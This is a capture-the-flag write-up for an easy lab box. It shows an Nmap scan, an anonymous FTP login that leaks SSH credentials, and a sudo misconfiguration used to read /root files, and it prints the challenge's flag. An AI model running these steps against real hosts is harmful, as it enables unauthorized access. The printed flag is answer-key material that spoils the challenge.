


# GGEZAF (Easy)

Its 2nd Week already, you can even predict your position isnt? Well then, prove you're not tryhard.

This is dockerized challenge. Use target IP below. IP: D

GLHF!

NMap scan:

```
Nmap scan report for 45.32.121.222.vultrusercontent.com (45.32.121.222)
Host is up (0.014s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.2 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```



FTP aon login successful, got creds.txt which contained `user1337:notsoleet`

Using this, could get SSH login



## Privelege Escalation

```
user1337@docker-chall-1:~$ sudo -l
User user1337 may run the following commands on docker-chall-1:
    (ALL) NOPASSWD: /usr/bin/cat, /usr/bin/ls

```
Great! Now we can read the flag

```
user1337@docker-chall-1:~$ sudo ls /root
root.txt
user1337@docker-chall-1:~$ sudo cat /root/root.txt
OWASPKL{H3re's_th3_G1v3aW4y_500_p0int5_f0r_yA}
```
